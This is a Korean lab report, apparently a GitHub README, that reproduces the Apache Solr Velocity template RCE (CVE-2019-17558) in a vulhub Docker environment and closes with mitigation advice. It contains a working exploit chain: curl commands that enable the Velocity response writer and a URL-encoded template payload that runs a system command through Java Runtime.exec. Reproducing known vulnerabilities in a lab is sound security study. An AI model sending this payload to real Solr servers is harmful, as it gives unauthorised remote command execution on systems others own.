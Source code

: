 # CVE-2019-17558 - Apache Solr Velocity Template RCE

## 개요

Apache Solr 5.0.0 ~ 8.3.1 버전에서는 `VelocityResponseWriter` 기능을 악용하여 원격 코드 실행(RCE)이 가능한 취약점이 존재한다. 본 보고서는 공식 PoC 흐름을 기반으로 해당 취약점을 Docker 환경에서 실습을 통해 재현한 결과를 포함하고 있다.

- 취약점 번호: [CVE-2019-17558](https://nvd.nist.gov/vuln/detail/CVE-2019-17558)
- 영향 버전: Apache Solr 5.0.0 ~ 8.3.1
- PoC 출처: vulhub / GitHub 공개 PoC

---

## 환경 구성

### 사용 기술

- Docker, docker-compose
- Vulhub의 CVE-2019-17558 실습 환경
- 브라우저 기반 확인

### 환경 구성

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose up -d
```

Apache Solr는 8983번 포트에서 실행됨. 브라우저에서 [http://localhost:8983](http://localhost:8983) 로 접근 가능.

---

## 취약점 재현 절차

### 1. Core 생성

Solr core를 `demo`라는 이름으로 생성한다. (해당 환경에는 이미 생성되어 있다.)

```bash
curl "http://localhost:8983/solr/admin/cores?action=CREATE&name=demo&configSet=_default"
```

---

### 2. Velocity 템플릿 기능 활성화

#### velocity.json 파일 생성: 

```json
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": true,
    "params.resource.loader.enabled": true
  }
}
```

#### curl을 이용한 설정 적용:

```bash
curl -X POST http://localhost:8983/solr/demo/config   -H "Content-Type: application/json"   --data-binary "@velocity.json"
```

응답 예시:
```json
{
  "responseHeader": {
    "status": 0
  }
}
```

---

## 취약점 트리거

브라우저 주소창에 아래 URL을 입력하여 악의적인 Velocity 템플릿을 실행시킴:

```
http://localhost:8983/solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)%20%23set($rt=$x.class.forName(%27java.lang.Runtime%27))%20%23set($chr=$x.class.forName(%27java.lang.Character%27))%20%23set($str=$x.class.forName(%27java.lang.String%27))%20%23set($ex=$rt.getRuntime().exec(%27id%27))%20$ex.waitFor()%20%23set($out=$ex.getInputStream())%20%23foreach($i%20in%20[1..100])$str.valueOf($chr.toChars($out.read()))%23end
```

---

## 결과 확인

RCE가 성공하면 다음과 같은 `id` 명령의 결과가 응답에 포함되어 브라우저에 표시된다:

```
uid=0(root) gid=0(root) groups=0(root)
```

![exploit-result](./result.png)

---

## 결론 및 보안 권고

본 취약점은 Solr에서 사용자 정의 템플릿을 허용할 경우 발생할 수 있는 위험을 보여준다.  
시스템 명령이 Java Velocity 엔진을 통해 실행될 수 있으며, 다음과 같은 조치가 필요하다:

- `params.resource.loader.enabled`를 기본적으로 `false`로 유지
- VelocityResponseWriter 사용 금지 또는 인증된 관리자만 설정 변경 가능하도록 제한
- Solr 최신 버전(8.4 이상) 업그레이드 권고

---

## 참고

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558  
- https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558  
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133  
